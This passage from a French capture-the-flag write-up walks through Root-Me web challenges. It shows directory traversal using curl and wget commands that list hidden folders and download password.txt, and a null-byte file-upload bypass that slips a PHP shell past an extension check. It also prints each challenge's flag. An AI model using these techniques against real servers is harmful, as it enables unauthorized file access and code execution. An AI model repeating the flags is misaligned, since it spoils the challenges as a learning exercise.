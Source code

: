 Cela confirme que nous avons réussi à récupérer le flag : `ml-SYMPA`

---


## 27. Directory traversal

Je propose ici une solution qui n’est basée que sur des outils CLI.

On commence donc avec cURL :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php
```

Le code source récupéré nous indique que les liens se font avec le paramètre "galerie", on peut donc farfouiller sur le site :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=actions
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=apps
```

C’est là qu’on va exploiter la faille puisque l’on peut passer à `galerie` un chemin ! Comme indiqué un peu partout sur le forum, la racine est la clef :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=/
```

On voit ici apparaître le dossier caché "86hwnX2r"

Un dernier coup de curl :
```bash
curl http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=/86hwnX2r
```

Nous montre qu’il existe un fichier `password.txt`, mais en plus nous fournit son chemin !

Il suffit de le rappatrier avec `wget` :
```bash
wget http://challenge01.root-me.org/web-serveur/ch15/galerie///86hwnX2r/password.txt
```

Et d’en afficher le contenu et de l'ouvrir dans le terminal  !

On obtient le Flag : `kcb$!Bx@v4Gs9Ez`

---

## 28. File upload - Null byte

Passer ce niveau est très facile. Utilisez le même shell que précédemment. Imaginons que le nom du fichier de votre shell soit `shell.php`. Renommez-le en `shell.php%00.jpg`. Lors de la soumission, l'extension `.jpg` sera supprimée à cause du byte nul qui précède. Une fois le fichier téléchargé, cliquez dessus.

Flag : `YPNchi2NmTwygr2dgCCF`

---

# 34 : PHP - Filters
